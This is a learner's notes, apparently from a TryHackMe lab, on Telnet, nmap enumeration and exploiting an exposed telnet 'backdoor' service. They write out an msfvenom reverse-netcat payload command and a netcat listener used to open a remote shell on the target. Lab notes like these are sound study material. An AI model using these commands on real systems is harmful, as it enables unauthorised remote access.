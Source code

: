 # Telnet

## **What is Telnet ?**

Application protocol → connect and execute commands on a remote machine that's hosting a telnet server → with the telnet client 

Less used today ( because all messages are sent in clear + no specific security mechanisms ) 

**syntax** : **telnet [ip] [port]**

## Enumeration :

-oN → put the results of the scan in a file ( useful to grep infos we want ) 

nmap -A -p- -V $ip → do a scan of all ports and not only the 1000 first one

→ I instead used "nmap -A -v -p 0-10000 ( because I knew it was in this range on THM ) 

## Exploiting :

As always → looking to CVE of Telnet

→ but most of the misconfiguration in how telnet has been configured ( human makes error ) 

**method :**

- We know from enumeration that there is a poorly hidden telnet service running on the machine
- the name of it is "backdoor"
- Maybe the username is "Skidy" :

![Untitled](Telnet%208e701eec7dca4b5bb205fff4b88ac617/Untitled.png)

**connecting to telnet :** 

**telnet [ip] [port]**

→ we try some commands but it doesn't do anything 

→ starting a tcpdump 

***sudo tcpdump ip proto \\icmp -i eth0*** ( because we're on a THM's machine, use tun0 instead  ) use this exact syntax 

→ after that we try to ping on the telnet machine our personal ip and it works youhou 

→ we're able to use commands we want 

[reverse shell : ](Telnet%208e701eec7dca4b5bb205fff4b88ac617/reverse%20shell%20c5ea816b5dd24a55bd35d15ec03a065f.md)

![Untitled](Telnet%208e701eec7dca4b5bb205fff4b88ac617/Untitled%201.png)

**Using msfvenom :**

**"msfvenom -p cmd/unix/reverse_netcat lhost=[local tun0 ip] lport=4444 R"**

-p = payload

lhost = our local host IP address (this is **your** machine's IP address)

lport = the port to listen on (this is the port on **your** machine)

R = export the payload in raw format

After creating this payload → start a netcat listener on our local machine :

**"nc -lvp [listening port]"**

→ and after that we c/p the payload into the telnet session